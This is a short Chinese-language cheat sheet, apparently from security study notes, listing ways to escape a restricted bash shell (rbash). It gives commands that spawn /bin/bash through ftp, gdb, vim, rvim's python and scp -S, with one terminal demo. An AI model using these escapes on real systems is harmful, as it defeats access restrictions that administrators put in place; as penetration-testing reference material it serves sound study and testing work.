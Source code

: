 # 常见利用
## 常见可执行程序
### 直接运行 /bin/bash
rbash 可能会限制对其他目录的访问，如果当前 shell 允许访问根目录，可以尝试直接运行 /bin/sh 或者 /bin/bash 切换 shell。
```bash
/bin/sh
/bin/bash
```
### 拷贝 /bin/bash
rbash 中可能会限制 cp 拷贝操作，但如果可以进行拷贝，则可以尝试将 /bin/sh 或者 /bin/bash 拷贝到当前目录。
```bash
cp /bin/bash .
```

### ftp
ftp 中使用 `!/bin/sh` 可以切换到对应的 shell。
```bash
┌──(kali㉿kali)-[~]
└─$ echo $0    
/usr/bin/zsh
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ ftp
ftp> !/bin/sh
$ echo $0
/bin/sh
$ 
```
### gdb
gdb 中也可以通过 `!/bin/sh` 切换到指定 shell
```bash
gdb
!/bin/bash
```
### vim
```bash
vim
!/bin/bash or !/bin/sh or :set shell=/bin/bash
```
### rvim
```bash
rvim
:python import os;os.system("/bin/bash")
```

### scp
```bash
scp -S /path/your/script x y:
```
假设当前目录存在一个 test.sh
```bash
#!/bin/bash
touch /tmp/bbb
```
运行下面的命令可以无回显执行这个脚本：
```bash
scp -S ./test.sh x y:
```
